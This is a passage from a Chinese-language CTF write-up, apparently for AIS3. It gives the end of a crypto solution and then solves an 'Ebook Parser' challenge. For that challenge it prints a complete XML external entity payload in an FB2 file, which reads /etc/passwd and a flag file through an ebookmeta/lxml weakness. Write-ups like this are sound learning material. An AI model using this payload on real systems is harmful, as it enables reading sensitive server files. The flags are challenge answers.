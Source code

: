 ```=
{: 90968383857681404242927909477464252602387471219945950453665598772039832078487309149670692874283215437984574695320981806360379096212936326954111131608499584545969103096096842380877613033764006459107764277330135816044808210474597200172673683909558627722941503504083244424751773797618360290613996970960151563724
}: 52745488365658861485519010696623986434656675831322149607647058389953842185045922621964255927212518970223978973817292179059730382537814695353016058702226289640834171560498112170760826276332972100423555174686162215383841925656596984188536350046664199627214379076416024495451320834231863438007383528385204646269
```
最後一一比對完後就得到flag了
![image](https://hackmd.io/_uploads/B1IkzuNVR.png)
`flag : AIS3{NeverUseTheCryptographyLibraryImplementedYourSelf}`
![image](https://hackmd.io/_uploads/r15YYQ-E0.png)


# Ebook Parser
原本打開這題不知道可以如何下手 只有從作者給的requirements.txt知道他有使用了甚麼套件 其中有lxml一種來解析xml的套件 因此猜測可能XXE(?
![image](https://hackmd.io/_uploads/HJFb2f7VA.png)

之後一連串google後在github上發現了一個熱騰騰的issue 不知道是不是有心人所為XD
https://github.com/dnkorpushov/ebookmeta/issues/16
我建了一個跟他一樣的file並命名為payload.fb2後就有成功的拿到/etc/passwd的資料
![image](https://hackmd.io/_uploads/HJQ6nzQNR.png)
那這樣代表說這個issue的payload是可以用在這題上的XD 那我們這邊想要拿到的是flag 因此把etc/passwd部分替換掉 透過path traversal來讀到根目錄的flag

```xml=
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///../../flag" >]>
<FictionBook xmlns="http://www.gribuser.ru/xml/fictionbook/2.0" xmlns:l="http://www.w3.org/1999/xlink">
<description>
    <title-info>
        <genre>antique</genre>
        <author><first-name></first-name><last-name>&xxe;</last-name></author>
        <book-title>&xxe;</book-title>
        <lang>&xxe;</lang>
    </title-info>
    <document-info>
        <author><first-name></first-name><last-name>Unknown</last-name></author>
        <program-used>calibre 6.13.0</program-used>
        <date>26.5.2024</date>
        <id>eb5cbf82-22b5-4331-8009-551a95342ea0</id>
        <version>1.0</version>
    </document-info>
    <publish-info>
    </publish-info>
</description>
<body>
<section>
<p>&lt;root&gt;</p>
<p>12345</p>
<p>&lt;/root&gt;</p>
</section>
</body>

</FictionBook>
```
上傳後就成功得到flag了 耶! 再右鍵檢查把它複製下來貼上
![image](https://hackmd.io/_uploads/BkMocsZEA.png)
